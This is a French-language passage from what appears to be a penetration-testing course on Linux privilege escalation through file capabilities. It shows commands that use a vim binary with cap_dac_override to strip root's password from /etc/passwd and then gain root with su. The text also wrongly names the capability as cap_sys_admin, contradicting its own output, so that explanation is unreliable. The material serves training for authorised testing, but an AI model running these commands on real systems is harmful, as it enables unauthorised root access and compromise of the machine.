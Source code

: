 Ce one-liner utilise la `find`commande pour rechercher tous les exécutables binaires dans les répertoires où ils se trouvent généralement, puis utilise le `-exec`drapeau pour exécuter la `getcap`commande sur chacun, montrant les capacités qui ont été définies pour ce binaire. La sortie de cette commande affichera une liste de tous les exécutables binaires sur le système, ainsi que les capacités qui ont été définies pour chacun.

* * * * *

Exploitation
------------

Si nous avons obtenu l'accès au système avec un compte à faible privilège mais que nous n'en avons pas la `cap_sys_admin`capacité :

#### Exploitation des capacités

  Exploitation des capacités

```
dsgsec@htb[/htb]$ getcap /usr/bin/vim.basic

/usr/bin/vim.basic cap_dac_override=eip

```

Par exemple, le `/usr/bin/vim.basic`binaire est exécuté sans privilèges spéciaux, comme avec `sudo`. Cependant, étant donné que le fichier binaire possède les `cap_sys_admin`fonctionnalités définies, il peut élever les privilèges de l'utilisateur qui l'exécute. Cela permettrait au testeur d'intrusion d'acquérir la `cap_sys_admin`capacité et d'effectuer des tâches qui nécessitent cette capacité.

Examinons le `/etc/passwd`fichier où l'utilisateur `root`est spécifié :
Exploitation des capacités

```
dsgsec@htb[/htb]$ cat /etc/passwd | head -n1

root:x:0:0:root:/root:/bin/bash

```

Nous pouvons utiliser la `cap_sys_admin`capacité du `/usr/bin/vim`binaire pour modifier un fichier système :

  Exploitation des capacités

```
dsgsec@htb[/htb]$ /usr/bin/vim.basic /etc/passwd

```

Nous pouvons également effectuer ces modifications en mode non interactif :

  Exploitation des capacités

```
dsgsec@htb[/htb]$ echo -e ':%s/^root:[^:]*:/root::/\nwq' | /usr/bin/vim.basic -es /etc/passwd
dsgsec@htb[/htb]$ cat /etc/passwd | head -n1

root::0:0:root:/root:/bin/bash

```

Maintenant, nous pouvons voir que le `x`dans cette ligne a disparu, ce qui signifie que nous pouvons utiliser la commande `su`pour nous connecter en tant que root sans qu'on nous demande le mot de passe.
